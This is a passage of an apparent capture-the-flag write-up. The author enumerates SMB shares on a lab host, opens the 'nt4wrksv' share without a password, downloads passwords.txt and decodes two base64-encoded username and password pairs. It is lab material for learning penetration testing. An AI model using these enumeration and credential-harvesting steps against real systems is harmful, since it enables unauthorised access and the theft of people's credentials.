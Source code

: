 ```bash
|     Current user access: <none>
|   \\10.10.91.208\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: <none>
|     Current user access: READ/WRITE
|   \\10.10.91.208\nt4wrksv: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: <none>
|_    Current user access: READ/WRITE

Nmap done: 1 IP address (1 host up) scanned in 36.80 seconds
```

Here I found out a shared folder called nt4wrksv, which can be a user.

And when I tried to enter this folder I was able to do that even without a password.

```bash
smbclient //10.10.91.208/nt4wrksv

Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Dec 31 06:28:38 2023
  ..                                  D        0  Sun Dec 31 06:28:38 2023
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020

                7735807 blocks of size 4096. 5136298 blocks available
```

I even found a passwords.txt file that I downloaded in my  machine to examine

```bash
cat passwords.txt                         

[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

There are two encoded passwords.

the first one is encoded in base64: 

```bash
Bob - !P@$$W0rD!123
```

And it actually is username and password.

The second one is:

```bash
Bill - Juw4nnaM4n420696969!$$$
```
